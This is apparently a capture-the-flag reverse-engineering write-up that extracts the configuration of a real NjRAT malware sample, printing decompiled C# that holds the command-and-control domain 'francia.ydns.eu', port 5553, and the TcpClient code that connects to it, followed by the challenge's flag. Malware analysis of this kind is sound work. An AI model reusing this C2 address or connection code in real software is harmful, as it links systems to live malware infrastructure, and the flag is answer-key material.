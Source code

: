 # InfeXion 4/4

### Category

Reverse

### Description

The second binary seems to be the real malware! Extract its configuration.

**Warning : This series of challenges contains real world malware. Do not execute it on your host, use a VM !!**

The flag corresponds to the C2 protocol, host and port, e.g. `Hero{smb|sub.example.com|9932}`.

Format : Hero{protocol|domain|port}<br>
Author : xanhacks

### Write Up

This step is quite easy, NjRAT often stores its configuration in plaintext. You can extract this two variables which corresponds to the C2 and port.

```cs
public static string H = "francia.ydns.eu";
public static string P = "5553";
```

This two variables are used here to connect to its C2 using a `TcpClient`:

```cs
OK.C = new TcpClient();
OK.C.ReceiveBufferSize = 204800;
OK.C.SendBufferSize = 204800;
OK.C.Client.SendTimeout = 10000;
OK.C.Client.ReceiveTimeout = 10000;
OK.C.Connect(OK.H, Conversions.ToInteger(OK.P));
```

### Flag

**Hero{tcp|francia.ydns.eu|5553}**
